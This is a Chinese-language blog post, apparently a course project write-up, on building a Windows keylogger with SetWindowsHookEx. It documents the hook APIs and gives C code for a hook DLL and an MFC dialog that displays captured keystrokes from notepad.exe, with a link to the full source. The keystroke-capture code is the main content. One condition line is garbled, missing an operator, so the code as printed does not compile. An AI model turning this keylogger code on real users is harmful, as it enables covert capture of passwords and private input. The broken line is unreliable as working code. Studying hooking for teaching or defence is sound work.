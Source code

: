 ```yaml
---
title: 键盘记录器
date: 2017-05-13 21:49:54
tags: [笔记,Windows Hook]
---
```

## 0x01 前言

Windows核心编程的期末答辩
<!--more-->
## 0x02 相关API

SetWindowsHookEx

将应用程序定义的钩子过程安装到钩子链中的，安装一个挂钩程序来监视系统的某些类型的事件
```c
HHOOK WINAPI SetWindowsHookEx(
  _In_ int       idHook,
  _In_ HOOKPROC  lpfn,
  _In_ HINSTANCE hMod,
  _In_ DWORD     dwThreadId
);
```
参数：
idHook: 要安装的挂钩过程的类型，这里等于WH_KEYBOARD。监视按键消息。
lpfn: 指明窗口准备处理一个消息时系统应该调用的函数地址。
hMod: 指明包含lpfn函数的dll。
dwThreadId: 挂钩过程与之关联的线程的标识符。线程标识符为0，表示挂钩过程应与与调用线程相同的桌面中的所有线程相关联

如果函数执行成功，返回挂钩过程的句柄。失败返回NULL。

KeyboardProc

处理键盘消息的回调函数，原型：
```c
LRESULT CALLBACK KeyboardProc(
  _In_ int    code,
  _In_ WPARAM wParam,
  _In_ LPARAM lParam
);
```
参数：
code：确定如何处理消息的代码。如果代码小于零，挂钩过程必须将消息传递给CallNextHookEx函数，无需进一步处理，并应返回CallNextHookEx返回的值。
wParam：生成按键消息的键的虚拟按键代码
lParam：重复计数，扫描码，扩展密钥标志，上下文代码，先前的密钥状态标志和转换状态标志。

返回值：
如果code参数小于0，则必须返回CallNextHookEx的返回值。
如果code大于或等于零，并且挂接过程没有处理该消息，应该调用CallNextHookEx并返回返回的值;否则其他安装了WH_KEYBOARD钩子的应用程序将不会收到钩子通知，并可能会导致错误的行为。 如果挂钩过程处理了消息，它可能返回一个非零值，以防止系统将消息传递给其他钩链或目标窗口过程。

CallNextHookEx

将钩子信息传递给当前钩子链中的下一个钩子过程。 挂钩过程可以在处理挂钩信息之前或之后调用此函数。
```c
LRESULT WINAPI CallNextHookEx(
  _In_opt_ HHOOK  hhk,
  _In_     int    nCode,
  _In_     WPARAM wParam,
  _In_     LPARAM lParam
);
```
UnhookWindowsHookEx

卸载SetWindowsHook安装的钩子
```c
BOOL WINAPI UnhookWindowsHookEx(
  _In_ HHOOK hhk
);
```
## 0x02 程序编写

首先要写一个dll，SetWindowsHookEx会把dll注入目标进程。
包括一个获取模块句柄的函数
```c
HMODULE WINAPI ModuleFromAddress(PVOID pv)
{
	MEMORY_BASIC_INFORMATION mbi;
	if (::VirtualQuery(pv, &mbi, sizeof(mbi)) != 0)
	{
		return (HMODULE)mbi.AllocationBase;
	}
	else
	{
		return NULL;
	}
}
```
创建钩子
```c
BOOL HookStart()
{
	BOOL bol = 1;
	HookMsg = SetWindowsHookEx(WH_KEYBOARD, KeyboardProc, ModuleFromAddress(KeyboardProc), 0);
	if (HookMsg == NULL)
	{
		bol = 0;
	}
	return bol;
}
```
卸载钩子
```c
void HookStop()
{
	UnhookWindowsHookEx(HookMsg);
}
```
处理消息
```c
LRESULT CALLBACK KeyboardProc(int nCode, WPARAM wParam, LPARAM lParam)
{
	CHAR szBuf[128];
	HDC hdc;
	static int c = 0;
	size_t cch;
	HRESULT hResult;
	char szPath[MAX_PATH] = { 0 };
	char *p = NULL;
	GetModuleFileNameA(NULL, szPath, MAX_PATH);
	p = strrchr(szPath, '\\');
	
	if (nCode >= 0)     
	{
        if (!(lParam & 0x80000000)!_stricmp(p+1,PROCESS_NAME))  
        //代表按键松开，具体参考MSDN
        //这里过滤了一下要记录的程序名，PROCESS_NAME在代码开头被定义为"notepad.exe"
		{
			HWND hWnd = ::FindWindow(NULL, "键盘记录器");
			PostMessage(hWnd, HM_KEY, wParam, lParam);
			//给主窗口发送消息
			//return 1;
			//如果这里注释去掉，将拦截用户键盘消息，直到卸载钩子
		}
	}
	return CallNextHookEx(HookMsg, nCode, wParam, lParam);
}
```
新建MFC工程，主程序无非就是调用dll里面的函数了。注意要在BEGIN_MESSAGE_MAP里添加消息处理ON_MESSAGE(HM_KEY, OnHookKey)
MFC里主要代码如下：
```c
void CMyHookDlg::OnBnClickedButton1()
{
	// TODO: 在此添加控件通知处理程序代码
	BOOL bol;
	bol = HookStart();
	if (!bol)
	{
		AfxMessageBox("安装失败");
	}
}
void CMyHookDlg::OnBnClickedButton2()
{
	// TODO: 在此添加控件通知处理程序代码
	HookStop();
}
LRESULT CMyHookDlg::OnHookKey(WPARAM wParam, LPARAM lParam)
{
	char szKey[80];
	::GetKeyNameText(lParam, szKey, 80);
	HWND hWnd = NULL;
	CString strItem;
	strItem.Format(" 用户按键：%s\r\n", szKey);
	// 添加到编辑框中
	CString strEdit;
	GetDlgItem(IDC_EDIT1)->GetWindowText(strEdit);
	GetDlgItem(IDC_EDIT1)->SetWindowText( strEdit+strItem);
	return 0;
}
```
0x03 下载源码及程序
[下载连接](https://github.com/h0rs3fa11/HOOK-.git)